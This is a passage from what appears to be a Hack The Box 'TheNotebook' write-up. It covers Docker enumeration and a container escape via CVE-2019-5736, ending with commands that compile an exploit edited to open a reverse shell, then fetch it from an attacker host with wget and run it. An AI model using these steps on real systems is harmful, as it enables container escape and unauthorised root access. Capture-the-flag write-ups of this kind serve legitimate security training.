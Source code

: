 
Checking the content of these files, in `create_db.py` noticed two password hashes for users `noah` and `admin`, which I decided to search on the internet first if they have already been cracked.

```python
 users = [
        User(username='admin', email='admin@thenotebook.local', uuid=admin_uuid, admin_cap=True, password="0d3ae6d144edfb313a9f0d32186d4836791cbfd5603b2d50cf0d9c948e50ce68"),
        User(username='noah', email='noah@thenotebook.local', uuid=noah_uuid, password="e759791d08f3f3dc2338ae627684e3e8a438cd8f87a400cada132415f48e01a2")
    ]
```

As haven't found anything in public sites (Crackstation, for example) this means that these passwords are not present in known wordlists like `rockyou.txt`, frequently used in CTFs. Decided to go further enumerating for other vulnerabilities in docker, specifically *docker breakout*, allowing us to escape to the host.

Searching for some information, found the repo [stealthcopter/deepce: Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE) (github.com)](https://github.com/stealthcopter/deepce) where there's a script that can help us enumerate the container characteristics known to be helpful in this kind of situation.

Executing it in the container, noticed that we could have a chance on doing it as there were capabilities (in red) that could allow us to read and write files in the host, but using the options in the tool didn't allow me to achieve the expected outcome.

![HTB TheNotebook - deepce output](https://i.imgur.com/0L7480D.png){: .align-center}

As I haven't found anything in the files, decided to search for specific vulnerabilities that could abuse capabilities like the ones we have found, where I found about CVE-2019-5736 while browsing for docker vulns in [CVE Details](https://www.cvedetails.com/). This vuln represents exactly the type of abuse we need based on our situation and, due to its high CVSS score (9.3) probably there is a ready exploit to be used.

![CVE Details - CVE-2019-5736](https://i.imgur.com/CqvPKK3.png){: .align-center}

Searching for exploits I came across the repo [Frichetten/CVE-2019-5736-PoC: PoC for CVE-2019-5736 (github.com)](https://github.com/Frichetten/CVE-2019-5736-PoC) which had a PoC written in Golang that supposedly would attend to our scenario, while other PoCs found required us to be able to run other containers (`docker run`) in the host, not covered by our sudo privileges.

To obtain the root shell, the following steps were executed, as also seen in this blog post ([Reproduction of docker escape vulnerability (CVE-2019-5736) - Programmer Sought](https://www.programmersought.com/article/71804432772/))

- Downloaded and edited the script `escape.go` to give us a reverse shell.

- Compiled it using the parameters below

  ```bash
  CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build escape.go
  ```

- Copied the exploit to the victim machine, inside the container, followed by its execution

  ```bash
  wget http://10.10.10.10/escape
  chmod +x escape
  ./escape
  ```
